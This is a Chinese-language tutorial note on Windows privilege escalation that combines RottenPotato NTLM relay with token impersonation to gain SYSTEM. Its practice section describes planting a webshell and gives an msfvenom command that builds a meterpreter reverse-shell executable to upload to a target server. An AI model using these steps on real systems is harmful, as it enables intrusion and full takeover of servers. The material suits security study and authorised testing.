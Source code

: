## 烂土豆配合令牌窃取提权

单纯令牌窃取：适用于web权限或本地提权

如配合烂土豆提权：适用于web或数据库等权限

RottenPotato（烂土豆）提权原理：

1. 欺骗 "NT AUTHORITY\SYSTEM"账户通过NTLM认证到我们控制的TCP终端。
2. 对这个认证过程使用中间人攻击（NTLM重放），为"NT AUTHORITY\SYSTEM"账户本地协商一个安全令牌。这个过程是通过一系列的Windows API调用实现的。
3. 模仿这个令牌。只有具有"模仿安全令牌权限"的账户才能去模仿别人的令牌。一般大多数的服务型账户（IIS、MSSQL等）有这个权限，大多数用户级的账户没有这个权限。

本地提权，只针对本地用户。适用于win7、8、10、2008、2012。

一般从web拿到的webshell都是服务器权限，是具有这个模仿权限的。测试过程中，发现使用已经建好的账户（就是上面说的用户级账户）去反弹meterpreter然后再去执行EXP的时候会失败，但使用菜刀（服务器权限）反弹meterpreter就会成功。即**非服务类用户权限无法窃取成功。**

烂土豆可以理解为是通过中间人攻击，将COM（NT\\SYSTEM权限）在第二步挑战应答过程中认证的区块改成自己的区块获取SYSTEM令牌，然后利用msf的模仿令牌功能模仿SYSTEM令牌。

烂土豆提权过程：**上传烂土豆-执行烂土豆-利用窃取模块-窃取SYSTEM-成功**

烂土豆比热土豆的优点是： 

1. 100%可靠    
2. （当时）全版本通杀。  
3. 立即生效，不用像hot potato那样有时候需要等Windows更新才能使用。

### 实践

利用phpStudy上传大马，查看权限，发现是shell权限，这个应该是最低权限

![查询权限](./烂土豆/查询权限.png)

生成一个反连后门，并上传到目标服务器。

```shell
msfvenom -p  windows/meterpreter/reverse_tcp lhost=<Your IP Address> lport=<Your Port to Connect On>  -f exe -o shell.exe
```

![生成后门](./烂土豆/生成后门.png)
